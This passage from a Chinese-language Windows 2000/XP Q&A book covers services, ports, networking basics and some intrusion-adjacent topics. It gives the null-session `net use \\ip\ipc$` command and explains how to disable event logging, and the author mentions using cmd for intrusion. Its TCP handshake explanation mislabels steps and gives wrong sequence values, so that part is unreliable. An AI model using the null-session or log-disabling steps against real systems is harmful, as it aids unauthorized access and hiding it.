- **应用程序日志**：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog\Application` 下，`DWORD` 值 `RestrictGuestAccess`，设其值为 `1`。
- **系统日志**：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog\System` 下，`DWORD` 值 `RestrictGuestAccess`，改其值为 `1`。
- **安全日志**：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog\Security` 下，`DWORD` 值 `RestrictGuestAccess`，修改其值为 `1`。

样就完成了。

## 上网的时候连接一个以 https 开头的地址，报告错误，要我安装 SSL，那是什么？

类似这样的地址：`https://url`，说明在和这个地址进行数据传输的时候使用了 SSL 进行加密。这样的话，你的浏览器就必须要支持 SSL 加密才可以。IE 5.0 以上（以前的老版本没注意过）的浏览器都是支持 SSL 的，所以不需要安装，只需要选择使用 SSL 就可以了。

方法为：打开 IE“工具→Internet 选项→高级→安全”，在这里可以看到 SSL 的选项（图 8-2），在这些选项前打上勾就可以浏览以 `https` 开头地址的网站了。


图 8-2

## 如何才能知道本机上的服务所对应的端口都是什么呢？

一般通过 `netstat -an` 能查看本机打开的端口，这里也可以看到一些服务，但并不是全部，所以这里推荐工具 `mport.exe`。这个工具不错，可以查看本机上的服务与端口的对应列表，而且这个工具可以在 XP 下使用。

使用方法简单，只要在 cmd 下转到该工具的目录下，键入 `mport` 就可以看到结果了（图 8-3）。


图 8-3

## 我是在局域网内，总是有人用 net send 发消息给我，我不想收到这消息，怎么办？

`net send` 这个命令是利用了 win2k 的 Messenger 服务，只要禁用了 Messenger 服务就可以了。

依次打开“控制面板→管理工具→服务→Messenger 服务”，然后在启动类型里选择“已禁用”（图 8-4），这样就能彻底地摆脱 `net send` 的骚扰了。


图 8-4

## 请问 Messenger 信使服务使用的是哪个端口？

Messenger 服务是基于 NETBIOS 端口的，所以，在安装了 NETBEUI 协议后，自然是使用 NETBIOS 端口所对应的几个端口：

- 137 = NETBIOS Name Service Port
- 138 = NETBIOS Datagram Service Port
- 139 = NETBIOS Session Service Port

**补充说明：** OK！为了更明白地说明问题，我们用 sniffer 来抓包看看。另外，除了能说明问题外，我们还会有意外的发现。

首先，在机器名为 python 的机器上，打开网络监视器（这是 win2k svr 以上版本自带的嗅探工具）。然后，在另外一台名为 X-HUNTER 的机器上使用 `net send` 命令，送出消息 `hello.python.`（图 8-5）。


图 8-5

很快，python 这台主机上就收到了消息，并且也抓到了数据包（图 8-6）。


图 8-6

由上图，我们来做一下分析。看最上层的窗口中，关于数据包的描述可以看到：send message，from X-HUNTER to PYTHON。然后从中间的窗口中，我们又可以看到这段：dst 139（NBT Session），可见目的地端口为 NETBIOS 端口。另外，在最下行还能看到 send message 的字样，后面也写明了发送的方向。

这些都搞清楚了，最后，我们看一下最下层的窗口，仔细看哦，可以清楚地看到我们发送的消息内容“hello.python.”。怎么样？发现了没？看来，`net send` 命令使用的是明文传送信息。如果想发送一些保密性要求比较高的消息的话，不要用 `net send` 命令哦。

## 怎样才能禁止别人远程编辑我的注册表？

在 win2k 的服务里，有一项为：Remote Registry Service（图 8-7）。同样，只要把这个服务禁用，就可以阻止别人远程连接并编辑你的注册表了。


图 8-7

## 在一个局域网内，有 80 台主机，主机均为 win2k 的操作系统，当所有主机都开机后，浏览网上邻居的时候，会非常慢，有时候等上十几分钟甚至都无法看到网上邻居有反应，有时候还会没有响应，why?

在 win2k 的服务中，有一个默认启动的服务，名为：Computer Browser，负责维护计算机的最新列表以及提供这个列表给请求的程序（图 8-8）。当在同一个局域网内的时候，这些主机要通过竞选的方法选出一台被称为 MASTER_BROWSER 的主机，负责维护这个局域网上所有的主机列表，并把该列表发布给该网段内的每台计算机，以便这些主机在浏览网上邻居的时候可以看到其他计算机。


图 8-8

然而，很不幸的是，获得竞选的过程是通过广播来进行的，这样就会非常影响网络上数据的传输速度。另外，最终的竞选结果是根据主机的配置来决定的。也就是说，一台硬件配置优秀的主机，很有可能就会成为最后的 MASTER_BROWSER。

但是，这就带来了另外一个问题：如果很多主机在配置上相似、性能相当，又在几乎同一时刻开机的话，那么竞争就会持续非常长的时间，可能是一两分钟，更有可能是一两个小时。甚至，我曾遇到过，在一个十几台计算机组成的局域网内，开机长达四个小时后，当所有主机都关机的时候，还没有产生 MASTER_BROWSER。所以，停掉这个服务是必要的。它不但会影响查看网上邻居的速度，更会影响网上的数据传输速度。

关闭这个服务有一定技巧，记住要选择“已禁用”（此处仍如上图）。另外，在局域网内，要有一台主机开启这个服务，当然要保证该主机的硬件配置。这样，该主机就会成为 MASTER_BROWSER，开机的时候就减少了竞选时间，也不会过多地影响网络上数据的传输速度。

另外，还有一点也是值得注意的，就是默认的打印机和计划任务的共享（图 8-9）。


图 8-9

大家应该都发现了，无论你是否安装打印机，这些都是共享的。过多的机器开放该共享也是影响网上邻居速度的一个原因。因此，停掉该共享对加快网上邻居的打开速度也是起一定作用的。

## IIS 这个服务是什么？

IIS = Internet Information Server（信息服务器），Microsoft 的产品，是一个用来发布 Web 的服务。

在 win2k pro 的版本中默认是没有安装的，server 以上版本才是默认安装。但是，我们可以通过添加/删除程序来安装 Windows 组件并安装 IIS（图 8-10）。


图 8-10

## 如何才能让我的主机停止记录日志呢？

就是说在日志查看器里不会有日志生成。

停止一个服务就可以了，该服务名为 Event Log。

该服务正常情况下是无法停止的。可以看到，该服务描述卡片上的“停止”按钮呈不可用状态（图 8-11）。所以，我们只能在启动类型里选择“已禁用”来达到停止该服务的目的。


## 我听说能通过禁止某个服务使 ipc$ 这类默认管理共享都失效，是不是真的？

是的，有两个服务都能做到。第一个服务就是 Server 服务，禁止掉后，这些默认共享全都不会开启。但是，禁止掉这个服务以后，你将不能与别人建立 ipc$ 连接等等。对于一个 hacker 或是 hacker 的追逐者来说，这是很痛苦的事情。

另外一个服务是 Workstation，禁止掉同样会使默认共享全都消失掉。但是，这个服务一旦禁止，很多东西就都无法使用了。这样说吧，除了上网看看新闻、聊聊 QQ 以外，估计也没有什么事可以做了。因此，我还是劝各位不要想通过禁止某些服务的办法来达到屏蔽默认共享的目的。

## 为什么我的终端服务无法正常启动？

首先要先确认机器上是否安装了 Terminal Service（终端服务）。如果该服务已经安装了的话，那么如果不能正常启动，一定会在日志中有记录。所以，可以通过日志查看器来查看启动时出现的错误，以便排除。

如果没有安装的话，可以通过“添加/删除程序”中的“添加/删除 Windows 组件”来安装 Terminal Service（注意：该服务只有在 win2k svr 或更高版本中才可以进行安装）。在“添加/删除 Windows 组件”中勾选“终端服务”（图 8-12），然后一直点“下一步”到完成就可以了。另外，安装完成后启动该服务时需要重新启动计算机，按要求重启后就可以启动服务了。


### 最后附录部分

关于 win2k 的服务，有些是你该清楚的：

- 什么才叫服务？服务，就是给某些应用程序或是环境提供支持用的。
- 有一件事你应该知道，在 win2k 中，所有应用都会被系统注册为服务。
- win2k 的系统是基于服务的，不要妄想能把 win2k 的所有服务都停掉。如果你非要停掉 win2k 的所有服务，最好的办法就是拔掉电源。
- 要分清楚进程与服务之间的概念，这要是不小心搞混了，呵呵，有你受的了。
- 禁止服务之前，要先查看两个地方。第一个地方是关于服务的描述，从这里你可以知道该服务的作用，这样你就能了解该服务对你是否真的没有用处。第二，查看依存关系，如果有一些重要的服务依赖于该服务，那是不能停止该服务的。


## 第9章 Win2k系统原理与网络知识

## 第9章 win2k系统原理与网络知识

### 可以针对 FAT、FAT32、NTFS 三种磁盘格式速度来进行一下比较吗？

三种磁盘格式的速度从快到慢依次是：FAT32 -> NTFS -> FAT。

原因：FAT32 和 NTFS 都是后期的产物，而 FAT 的格式是老前辈级的了，和晚辈们自然没得比了。

然而，为什么后出现的 NTFS 速度会比 FAT32 慢呢？

主要原因是 NTFS 支持权限设置，因此在访问磁盘的时候，并不是简单地对磁盘进行访问，而同时还要检查每个文件或者文件夹对象的 NTFS 权限（也可以说是检查每个对象的 ACL）。因此，这样相比之下，NTFS 的速度要比 FAT32 慢一些了。

### 有没有什么办法可以在 DOS 下看到 NTFS 的分区？

我们都知道，在 DOS 下是无法识别 NTFS 的。所以一般情况下，我们使用 DOS 启动盘启动，有 NTFS 磁盘格式的系统会很麻烦。


图 9-1

不过现在已经有很多工具让我们实现在 DOS 下识别 NTFS 分区了。在这里，我比较推荐 NTFSDOS Professional（图 9-1）。

因为这个软件是直接用来制作一个可识别 NTFS 分区的 DOS 启动盘，这样既兼容了 DOS 的功能，又可以识别 NTFS 分区，很不错哦。

制作方法很简单，按照提示进行就可以了。而且，在选择语言的时候，选择 chinese（带有 PRC）的那一项就可以了（图 9-2）。


图 9-2

接下来，会要求分别选择系统的安装路径和软盘路径，只要根据你的情况选择就可以了，然后就放入软盘等待刺耳的软盘惨叫声……

### 启动 XP 的时候，系统提示 DLL 文件丢失，怎么解决？

使用 `sfc` 这个命令，在 cmd 中运行（图 9-3）。


图 9-3

一般来说，使用 `scannow` 这个参数就足够用了。因此，直接运行 `sfc /scannow` 这个命令。由于在这个过程中如果检测到系统保护的文件丢失，会自动从光盘中提取丢失的文件，所以不要忘了放上光盘。然后只要静静等待，这个命令对大部分由于文件丢失而导致系统出错的情况都可以解决。（此法在 win2k 以及 winXP 中均可使用）

### 原系统为 XP，现在安装第二个系统 win2k，在安装完成 win2k 后重启，为什么没有多重启动菜单可以选择进入 win2k 或 XP，而是直接进入了 win2k？

这是因为版本的问题。XP 的版本高于 win2k 的版本，所以低版本的 win2k 无法识别高版本的 XP，而导致无法从 win2k 引导启动 Windows XP。解决办法有两个：

- 解决方法一：用 XP 的光盘启动系统，进入 XP 的安装界面（或是用启动盘启动系统，总之能进入 XP 的安装界面就可以了），然后选择“修复系统”，修复后重新启动就会看到多重启动菜单里有 win2k 和 Windows XP 了。
- 解决方法二：在 Windows XP 的光盘中找到 `I386` 目录，在这个目录下搜索两个文件：`NTLDR` 和 `Ntdetect.com`。然后再到计算机硬盘中搜索这两个文件（一般情况下这两个文件是在 C 盘主分区），把从 XP 光盘中找到的 `NTLDR` 和 `Ntdetect.com` 复制到硬盘中并替换掉原硬盘中的这两个文件，重启即可。

为了避免这种问题发生，一般安装系统的时候要从低版本系统最先安装，最后安装高版本系统，顺序如下：

- Microsoft Windows 95、Microsoft Windows 98 或 Microsoft Windows Millennium Edition (Me)
- Microsoft Windows NT 4.0
- Microsoft Windows 2000
- Microsoft Windows XP
- LINUX

### 请问 WIN2000 的注册表文件是哪几个？

Windows 2000 中注册表文件的位置同 Windows 9X 一样。Windows 2000 的注册表也分为两个部分，但包括多个文件。

其中，用户配置文件保存在根目录“Documents and Settings”下用户名的目录中，包括两个隐藏文件：`NTUSER.DAT`、`NTUSER.INI` 及 `ntuser.dat.LOG` 日志文件。

系统配置文件位于 Windows 2000 系统目录下的 `SYSTEM32\CONFIG` 中，包括 `DEFAULT`、`SOFTWARE`、`SYSTEM`、`AppEvent.Evt`、`SecEvent.Evt`、`SysEvent.Evt` 等多个隐藏文件及其对应的 `.LOG`（日志）文件和 `.SAV` 文件。

这些注册表文件在 Windows 2000 运行时无法使用其它工具打开，这一点与 Windows 9X 下的 `system.dat` 及 `user.dat` 不同。

## win2k问答

### 为什么我不能在 Windows XP 中安装 NETBEUI 协议？在安装协议中根本就没有 NETBEUI 协议这一项。

微软公司以 NETBEUI 协议并非标准协议为由，拒绝在 Windows XP 中内置该协议，所以无论是默认安装还是手动安装，系统都不会直接提供 NETBEUI 协议选项。但是，并不是说我们就没有办法了，我们可以使用以下办法来安装 NETBEUI 协议：

- 拷贝 `nbf.sys` 到 `%SYSTEMROOT%\SYSTEM32\DRIVERS\` 目录。
- 拷贝 `netnbf.inf` 到 `%SYSTEMROOT%\INF\` 目录。
- 打开网络连接属性，点击安装按钮添加 NetBEUI 协议。

（注：`%SYSTEMROOT%` 为你安装 XP 的目录，如默认的 `windows`）

### 我使用 `netstat -an` 命令来查看本机的开放端口，会看到后面有一项 state，下面好多英文（图 9-4），那些都是什么意思啊？


那些英文表示了当前连接的状态，不同的英文代表的状态意义也不一样。根据这些可以判断连接状况，以下列出所有可能出现的状态：

- **LISTEN**：侦听来自远方的 TCP 端口的连接请求。
- **SYN-SENT**：在发送连接请求后等待匹配的连接请求。
- **SYN-RECEIVED**：在收到和发送一个连接请求后，等待对连接请求的确认。
- **ESTABLISHED**：代表一个打开的连接，数据可以传送给用户。
- **FIN-WAIT-1**：等待远程 TCP 的连接中断请求，或先前的连接中断请求的确认。
- **FIN-WAIT-2**：从远程 TCP 等待连接中断请求。
- **CLOSE-WAIT**：等待从本地用户发来的连接中断请求。
- **CLOSING**：等待远程 TCP 对连接中断的确认。
- **LAST-ACK**：等待原来发向远程 TCP 的连接中断请求的确认。
- **TIME-WAIT**：等待足够的时间以确保远程 TCP 接收到连接中断请求的确认。
- **CLOSED**：没有任何连接状态。

### 在 win2k 或以上系统，安装一些软件时，会提示：1. 所有用户使用此软件；2. 只允许我使用此软件。请问这两个选项安装后是如何实现权限分配的，是不是在注册表？

在普通的 FAT32 分区上，可以通过用户的 SID（安全标识符）来确认用户身份，以达到识别用户的目的。

如果是在 NTFS 分区上的话，则可以根据每个文件或文件夹的 ACL（访问控制列表）再加上用户的 SID 来识别用户，并判断用户对该文件或文件夹是否有访问权限。

### 我用的是 2K Pro，请问如果我想装 IIS，不用 PWS，也不装 SERVER 版的，请问我到哪里去下载 IIS 呢？

IIS 是 Windows 的一个组件，不能下载。如果有 win2k 的光盘，可以从光盘中直接进行安装。

方法为：依次打开“控制面板→添加或删除程序→添加/删除 Windows 组件”，在出来的选项板里，在 IIS 前打上勾（图 9-5），然后点“下一步”就可以进行安装了。（还可以在选中 IIS 后点“详细信息”来进行更详细的安装选择）


### 为何要区分 TCP 端口和 UDP 端口？

主要是由 UDP 和 TCP 两种协议的特性决定的。

TCP 协议是一种面向连接的协议。简单点说，面向连接其实就是保证数据能够正确地传送到目的地。采用 TCP 协议发送的数据，会由 TCP 协议经过多次确认，以达到准确发送到目的地的目的。

UDP 协议则是一种非面向连接的协议。采用该协议发送数据并不能保证数据的正确到达，发送方只管发送数据，而不对接收方是否接收到数据进行确认。

同时两种协议又都提供端口到端口的传输，所以就要区分 UDP 和 TCP 端口，以对数据进行不同的封装（使用 TCP 或 UDP 进行封装）。

> 无论是采用 UDP 还是 TCP 对数据进行封装，最终的最外层封装都会采用 IP 进行封装，因为在 Internet 上是根据 IP 地址来确定对方所在地的，而且现在的路由器也都是根据 IP 进行路由的，所以最外层的 IP 封装是十分必要的。

### 什么是 TCP 的三次握手？

TCP 协议是面向连接的可靠传输协议。使用 TCP 协议的话，在传输数据前一定要先建立一个连接。建立这个 TCP 连接的过程就称为 TCP 三次握手，主要过程如下：

- 第一步，客户端（Client，以下简称 C）会先发送一个带 SYN 控制位的请求，请求发往服务端（Server，以下简称 S），请求内容是要求建立连接。另，SYN 控制位还会附带一个随机序列号（示例为 10），ACK 位被设置为 0。
- 第二步，S 收到了 C 的请求后，查看请求建立连接的端口是否处于空闲状态。若端口忙，S 发送 RST=1 拒绝连接；若端口空闲，S 对 C 做出响应。
- 响应数据中包含 SYN 和 ACK 两个控制位（后续内容承接下文）。S端的一个内码，是一个随机值。这里，为了和前面第一步的 SYN 区别，假设其值为 100。另外，ACK 位的值会被设置为 C 端发送过来的 SYN 的值加上 1。那么，这里 ACK=11。所以，S 端响应 C 的请求内容会有如下内容：SYN=100，ACK=11。

第二步，C端收到信息后，会再一次发送信息确认S端。发送信息中还是包含了 SYN 和 ACK 两个控制位，这时候，SYN 位将被设置为第二步中 S 端发送的 ACK 位的值，而 ACK 位将设置为 SYN 的值加上 1。因此，在这里，两个控制位分别为：SYN=11，ACK=101。

这样，三次的数据发送，这个连接就建立起来了。

> 上面的过程中，涉及到了三个 TCP 的控制位，分别为 ACK、SYN、RST。除了这三个控制位之外，其实 TCP 还有一些控制位：URG（紧急指示域标志）、PSH（发送功能标志）、FIN（完成标志）。关于标志位的具体功能，要结合 TCP 的一些特性才会体现出来，因此在这里就不详细讲解了，希望大家能参考一些 TCP/IP 的书籍。


## OICQ不是使用UDP协议么，但是，它是怎么通过路由器完成寻址的？

这个问题问得好，很多朋友在学习了很久的 TCP/IP 的知识之后，还不知道数据包是怎么通过寻址、路由的。这里的关键问题就在寻址上了。路由器工作的层面是 OSI 的第三层，也就是网络层，路由器完全是依靠 IP 来进行寻址的。所以说，像我们常说的 TCP、UDP 等协议，将数据封装完成后，并不是直接就发送出去了，而是要经过 IP 再次封装的。这样一来，在经过路由器或是第三层交换机的时候，就可以通过 IP 来进行寻址路由了。

## 什么叫套接字？


套接字（socket），在网上传输的数据，除了要指定对方的 IP 地址以外，还需要知道端口。IP 地址使得数据包准确发送到目的主机，而端口号则准确地将数据包交给某个应用程序来处理数据。也就是说，IP 地址标明了主机的所在地，而端口号则是用来确定主机上所运行的某个应用程序的具体位置。

IP 地址和端口号结合在一起，便被称为套接字。

## 什么叫做中断？


现在操作系统对意外事务的处理都是基于中断的。

早期的操作系统是基于扫描的。例如，从键盘上输入一个字母，当系统正常启动后，系统会定时对硬件和硬件的 I/O 接口进行扫描，其中当然也包括键盘。当到某一时间的时候，扫描到了键盘上的一个命令——也就是前面说的输入一个字母的这个命令。这个时候，系统响应，就会把输入的字母显示在屏幕上的编辑工具上或是其他什么。不难看出，这种基于扫描的响应方式很有局限性，而且最大缺点就是不能及时响应，一定要等到扫描的时候才会响应。就是因为这个原因，出现了基于中断的方式。同样，还是键盘输入一个字母，这时候就会发出一个中断信号，系统收到该中断信号后，就会根据优先级等信息来做出响应。可见，这样一来，在响应速度上得到了改善，而且也不需要花大量的系统资源去对硬件做一些无谓的扫描。

> 关于中断，除了中断信号以外，还有很多值是要设置的，例如中断的优先级。这样就能解决当多个中断同时发生时所产生的冲突。如果要想了解中断更多的知识的话，希望大家去看一些操作系统原理的书籍。

## 什么叫做进程？

关于进程的概念并不是很清楚，这是因为有很多种关于进程的说法，这里只能简单描述一下进程的特性。

进程是不同于程序的，进程是一个动态的概念，进程可以动态地获取内存。计算机在处理程序的时候，都是以进程来作为独立的单元进行内存分配的。

这样来说，一个程序是永远都存在的，它不会随着时间而消失，但是进程就不一样了，因为进程是一个动态的概念，它会随着时间而消亡。并且，每当一个程序开始运行的时候，它可能会创建一个或多个进程。

在 win2k 中，我们可以通过任务管理器来查看进程（图 9-6）。在这里，我们会看到很多的进程。结合上面的叙述，希望大家能对进程有一个了解。

## 什么是线程？

线程是指程序的一个指令执行序列。


图 9-6

Windows 系统支持多线程程序，允许程序中存在多个线程。在单 CPU 系统中，系统把 CPU 的时间片按照调度算法分配给各个线程，因此各线程实际上是分时执行的（就好像网络传输的分时复用技术一样）；在多 CPU 的 Windows NT 系统中，同一个程序的不同线程可以被分配到不同的 CPU 上去执行。由于一个程序的各线程是在相同的地址空间运行的，因此涉及到了如何共享内存、如何通信等问题，这样便需要处理各线程之间的同步问题，这是多线程编程中的一个难点。

另外，可以把线程看作是进程的子集，由线程便可体现进程活动的特性。

## 什么叫做溢出？

溢出都是指缓冲区溢出，“缓冲区溢出”的英文名是“buffer overflow”。

首先，要了解什么是缓冲区。最简单地来讲，缓冲区就是在内存中开辟的一段连续的空间，用来存取一些数据的中间值，用作缓冲，所以叫做缓冲区。

每个程序所开辟的缓冲区长度都是有限制的。当某个程序由于设计问题而没有对过长的数据进行检查的时候，我们再对该程序提交一个过长的数据，那么它会把这个过长的数据放入它的缓冲区。然而，缓冲区又不够长，这就导致多余的数据溢出到相邻的区域中了。

打个不是很恰当的比方：你买了一根很长的木材，但是没有对木材的长度进行检查，致使木材的长度要比你家园子的宽度还长。这样，如果你在家里横着将木材摆放的话，就会导致过长的那部分木材“溢出”到隔壁邻居家的园子里了。

## win2k部分

为什么我装的 WIN2000 高级服务器版，在安装了英文版的 WINDOWS MEDIA PLAYER 9.0 之后变成了测试版？

这个问题大概是微软的一个 bug 吧。这个问题的重要原因是因为安装的媒体播放器是测试版的。

在 win2k 上，从 Professional 向上的所有版本都存在这个问题，就是安装了测试版的媒体播放器 9.0 以后，系统会自动标识为测试版。

暂时还没有办法恢复，我曾经在微软的 KB 中进行搜索，也没有相关文章可以提供解决办法，所以我想重装系统是解决问题的唯一办法了。

不过，虽然系统被标识为测试版，但是从性能上来说没有任何改变，而且也没有任何限制，可以放心使用。

在网上邻居浏览整个网络的时候，经常可以看到一些很有个性的名字的工作组，我也想加入他们，怎么加入啊？

在桌面上找到“我的电脑”并右键“我的电脑”，选择“属性”。然后选择“网络标识”卡片，在这里会看到你的机器当前属于哪一个工作组（图 9-7）。


图 9-7

如果想改变并加入其他工作组的话，在此卡片上点“属性”，便来到了“标识更改”卡片中。在最下面，可以看到当前所在的工作组“WORKGROUP”（图 9-8）。


图 9-8

如果想要修改的话，在这里修改“WORKGROUP”就可以了。可以修改为一个已存在的工作组名称，也可以修改成一个还不存在的工作组名。

## 第9章 win2k 系统原理与网络知识

**注意：** 在同一个局域网内，如果 N 多台 win2k 主机在不同的工作组中的话，如果使用 `net view` 命令则不能完全看见所有的主机，而只能看到当前你所属工作组内的所有主机。

### 防火墙断开网络是断开 OSI 模型中的哪一层？

应该是网络层的。

看防火墙的作用就知道了，防火墙规则中有关于屏蔽端口和 IP 的设置，而这些东西只有在网络层才可以被实现，所以应该是工作在网络层的。

### 路由器工作在哪层？

路由器又叫做 IP 路由器，它的主要作用就是根据 IP 来对数据包进行数据转发，所以它所工作的层面自然就是 IP 协议做处理的 Internet 层了，也就是 OSI 标准模型中的第三层——网络层。

### 网桥工作在哪一层？

网桥是根据 MAC 地址进行数据转发的，没有涉及高级层面。应该不难看出，网桥工作在 OSI 标准模型中的第二层——数据链路层。

### 集线器工作在哪一层？

哈哈，这个问题可不是很好说，而且就这个问法而言，问得也不够艺术。网桥这种设备还能实现根据 MAC 转发数据包，而集线器连这个功能都做不到，只是将数据简单地广播出去而已，所以也说不上工作在第几层。不过，如果将它看为是硬件设备的话，倒也可以划分到 OSI 标准模型中的第一层——物理层。

### 交换机工作哪层？

早期的交换器都是根据 MAC 地址进行转发数据的，也就是说，早期的交换机工作在 OSI 的第二层，也叫做第二层交换机。

现在，大部分交换机都整合了路由功能，因此它也可以在第三层上进行 IP 路由转发数据。因此，现在的大部分交换机则是工作在 OSI 的第三层，也叫做第三层交换设备。

### 什么叫做端口重定向？

端口重定向，顾名思义，就是把其他机器上的端口重新定向到本地机或是另外机器的端口上。

例如，将 `www.sohu.com` 的 80 端口重定向到本机的 80 端口上。这样，当使用 IE 并在 IE 地址栏中键入 `127.0.0.1` 的时候，就会自动转向到 sohu 的主页上了。

典型的端口重定向工具：FPIPE

```bash
fpipe -l 80 -s 88 -r 80 xxx.xxx.xxx.xxx
```

### 我用 fpipe 重定向我的端口，我用：fpipe -l 80 -s 88 -r 80 xxx.xxx.xxx.xxx，这是什么意思？

监听本地的 80 端口，当本地的 80 端口上有请求的时候，将从本地机的 88 端口发送请求至 `xxx.xxx.xxx.xxx` 的 80 端口。

这样，就达到了端口重定向的目的，也就是将 `xxx.xxx.xxx.xxx` 的 80 端口重定向到了本地主机的 80 端口上。

## 老是见到 shell 这个名词，这个 shell 是什么？

如果你听到有人说：“哈哈，终于拿到了一个 shell！”，这个 shell 代表的是用户和操作系统“交流”的接口，就像 win2000 中的 cmd。shell 的另一种解释是 Unix 下的一种脚本编程语言，不过一般来说，我们说到的获得的 shell 都是一个用户和操作系统的交流接口。除了 win2k 中常见的 cmd 以外，还有一个 shell 是我们天天都要接触的。其实，我们每天打开电脑的时候就要加载一个 shell，不知道大家注意了没有。没注意的话，打开任务管理器看一下，会找到 explorer.exe 这个进程（图 9-9）。

> 也许很多朋友都会这样一个小技巧，例如，我的任务栏右下角有一个程序的图标（例如 QQ 图标），但是，我不想让别人看见它……


如果不知道 explorer.exe 是什么的话，直接在“运行”里键入 explorer.exe 看看，是什么？哈哈，资源管理器！平时我们之所以能在桌面上直观地看见这么多文件或是“我的电脑”，就是因为它。如果不信的话，大家可以在任务管理器里将 explorer.exe 这个进程结束掉，这时候就会发现电脑一片蓝色，什么都没有了，“我的电脑”也找不到了，呵呵，信了吧？

> 在运行（老版本系统如 QQ 登录前）先结束当前的 explorer.exe，然后再使用任务管理器添加一个新任务为 explorer.exe，就可以隐藏这个图标了（win98 下可先结束 explorer.exe，出现关闭计算机对话框时选“取消”，系统会自动再加载一个 explorer.exe）。

知道其中的原因吗？因为像 QQ 这类软件，它的进程都是依附于 explorer.exe 的。如果把 explorer.exe 看做一个树根的话，那么可以说 QQ.exe 这个进程就是它的树枝了。这一点，我们通过使用 tlist 这个命令可以证明（该命令的功能就是树形排列进程，这样可以看出进程相互之间的依附关系）（图 9-10）。


从图中可以非常清楚地看出来，当前的 explorer.exe 是被 QQ.exe 所依附的一个进程。如果当前的 explorer.exe 进程被结束的话，即使再添加一个新的 explorer.exe 进程，这两个进程的 ID 号（Process ID，PID）也是不同的。因此，QQ.exe 是不能依附于另外一个 PID 不同的 explorer.exe 进程的。所以，从表面上看，就达到了隐藏图标的意义；但实际上，如果查看进程的话，QQ.exe 这个进程还是在后台运行着的。

说了这么多，不知道大家是否对系统进程又有了一些了解，希望不是废话。

## 到底什么才是空连接？

建立空连接的命令大家都应该很熟悉了：`net use \\ip\ipc$ /user:`

那到底什么才是空连接呢？这里，简单地从系统原理方面讨论一下。

由于建立空连接的过程中并没有输入用户名和密码，所以不难看出，空连接实际上就是一个未经验证的用户与主机建立连接的过程。那么，我们就完全可以认为这是一个类似匿名登录一样的匿名连接。

另外，需要了解的一点是，当建立空连接之后，当前这个匿名用户的 SID 号为 `S-1-5-7`（每个 win2k 的用户都会有一个唯一的 SID，即安全标识符）。

既然这个连接的用户是匿名的，那么不知道大家是否知道，win2k 中有一个 everyone 组，匿名用户也是属于这一个组的。因此，凡是对 everyone 组有权限访问的文件或是文件夹，对建立了空连接的用户来说，他当然也有这个权限了。很危险哦~~~

至于微软为什么会有这个空连接，主要的一个原因是因为通过空连接会得到一些主机信息。而在域中，查找 DC 或是一些其他特殊服务的主机的话，在查找过程中，不是建立一个经过验证的连接，而是建立一个空连接的话，那么在速度上就快得多了。

OK，以上是从系统原理方面对空连接的简单描述。不知道对大家是否有帮助？

## 什么是 exploit？

exploit 这个词的最原始意思是：开拓、开发、开采、剥削。

但是，在计算机的攻击和入侵中，它又是针对溢出漏洞而言的，主要是指溢出攻击的过程和溢出攻击时所需要的攻击程序。

## 我机器的一个程序，为什么在删除时显示正被 Windows 使用，无法删除，能解释一下吗？还有，我怎么才能删除它呀？

很显然，之所以不能删除这个程序，是因为当前正有一个或是多个进程正在占用它。例如，我们最常见的情况，在 win2k 中，来到 `C:\WINNT\system32\config` 下，找到 SAM 文件，试着删除它，看到了什么？报错了吧（如图 9-11），这是因为该文件是被系统的关键进程所占用的。


如果这个还不能说明问题的话，那么我来个更直观一点的：开始→运行，输入 cmd，然后在 cmd 里随便输入一个命令。这个时候，到 C 盘，搜索到 cmd.exe，然后你试着删除它，同样也会收到报错信息。这是因为当前正有一个 cmd 窗口打开着，该窗口中运行了命令，而这些命令要调用 cmd 这个进程（图 9-12）。


解决办法很简单，像我这样，关掉 cmd 窗口就可以删除了（说说而已，我可不会删掉我的 cmd，入侵还要用它呢）。同样，如果遇到这种情况，找到相关的进程，停掉就可以了。这个我们可以在 win2k 的“任务管理器”中进行；如果不行的话，使用 kill 加上 `-f` 这个参数，来强制停掉这个进程。（关于使用微软 win2k 的 support tools 中的 kill 和 tlist 的方法，我在《黑客 X 档案》曾写过，大家找找看——不是广告，现在不看广告，都看疗效^^）

> 关于“无法删除，源文件可能正被使用”这种情况，大家见得应该比较多。但是不知大家注意没有，在很多情况下，无法删除的文件中后缀为 DLL 的文件居多。不信的话你去试试，到 `C:\WINNT` 或是 `C:\WINNT\system32` 这种系统关键文件占多数的地方找些 DLL 文件删除试一下，很多都是无法删除的。DLL 是动态链接库文件，尤其是系统文件时，很多程序运行的时候都要调用到 DLL 文件，而且大部分程序运行的时候还不止要使用到一个，要使用很多个，因此不能删除就是比较正常的事了。

我的 C 盘在我装 WIN2000 时格式成了 NTFS 格式，现在我想把它重新格式化装 WINXP，但在 DOS 下找不到我的那个 NTFS 格式的 C 盘，而且我的其他盘上还有重要的文件，我又不想重新分区，有没有什么方法？

有两个办法可以解决这个问题：

- 第一，大名鼎鼎的 PQ 大家应该都知道了吧，著名的分区工具。可以使用这个软件将 C 盘转换为 FAT32 格式（就我所知，PQ8.0 就可以做到，我也试过）。但是，PQ8.0 不支持中文，所以在转换之前要把所有的中文文件和文件夹改成英文（HOHO～比较麻烦哦）。然后就不用我教了。
- 第二，其实这个办法应该更好，而且这个办法也很简单，那就是升级系统。微软的系统是支持从低版本到高版本的升级的，而 win2k 的版本要比 win XP 的版本低，所以直接升级你的系统就 OK 了……（这个办法最大的好处就是，升级系统之后，所有 C 盘中安装的软件仍然可以正常使用，包括驱动等等……）。

## 怎么才能实现共享上网？

先假设这样一个网络环境：一个小型的局域网，在这个网络中，有一台主机可以通过 ADSL 上网。那么，如果想要整个网络中的所有主机都通过这台主机来上网的话，我们来做这样的配置：

在拨号上网的主机上进行设置：

首先，要先将自己的 IP 地址改为 `192.168.0.1`，这是必要的。不过，如果不想改的话也无所谓，但是在后边的修改中，系统会帮你修改。

然后，右键“网上邻居”，选择“属性”，在弹出的“网络和拨号属性”中右键拨号的那个连接，并选择属性（图 9-13）。


图 9-13

然后，选择共享选项卡，在这里勾选“启用此连接的 Internet 连接共享”（图 9-…）14），并点“确定”，就完成了。（如果没有做第一步的话——即修改地址为 192.168.0.1，这里会弹出对话框，说一些什么话，大概意思就是要修改你的 IP 地址为 192.168.0.1 了）

